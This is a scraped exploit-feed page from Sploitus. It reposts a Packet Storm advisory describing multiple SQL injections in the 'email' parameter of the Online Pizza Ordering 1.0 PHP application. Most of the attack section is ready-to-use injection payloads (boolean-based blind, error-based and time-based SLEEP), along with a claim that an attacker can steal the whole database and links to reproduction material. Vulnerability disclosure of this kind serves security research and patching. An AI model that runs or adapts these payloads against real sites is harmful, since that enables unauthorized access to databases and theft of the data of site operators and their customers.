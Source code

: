 ```yaml
---
title: Online Pizza Ordering 1.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171614&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-04-01
fetch_date: 2025-10-04T11:20:20.660490
---
```


# Online Pizza Ordering 1.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Online Pizza Ordering 1.0 SQL Injection

2023-03-31 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171614
## Title: Online-Pizza-Ordering-1.0-Multiple-SQLi
## Author: nu11secur1ty
## Date: 03.31.2023
## Vendor: https://github.com/oretnom23
## Software: https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The `email` parameter appears to be vulnerable to SQL injection attacks.
The attacker easily can steal all information from the database, and
it depends on the time he will need to decrypt this information,
he can decrypt and use this information for very malicious purposes.

STATUS: HIGH Vulnerability

[+]Payload:
```mysql
---
Parameter: email (POST)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: email=ZfCPbAWN@burpcollaborator.net' and '3479'='3479'
AND 2244=2244 AND 'GqOB'='GqOB&password=b0E!i9g!K9

Type: error-based
Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: email=ZfCPbAWN@burpcollaborator.net' and '3479'='3479' OR
(SELECT 8595 FROM(SELECT COUNT(*),CONCAT(0x716a6a7071,(SELECT
(ELT(8595=8595,1))),0x71716a7071,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND
'FXYe'='FXYe&password=b0E!i9g!K9

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: email=ZfCPbAWN@burpcollaborator.net' and '3479'='3479'
AND (SELECT 3772 FROM (SELECT(SLEEP(7)))xChJ) AND
'pJWv'='pJWv&password=b0E!i9g!K9
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2023/Online-Pizza-Ordering-1.0/SQLi)

## Proof and Exploit:
[href](https://streamable.com/qil6by)

## Time spend:
00:37:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)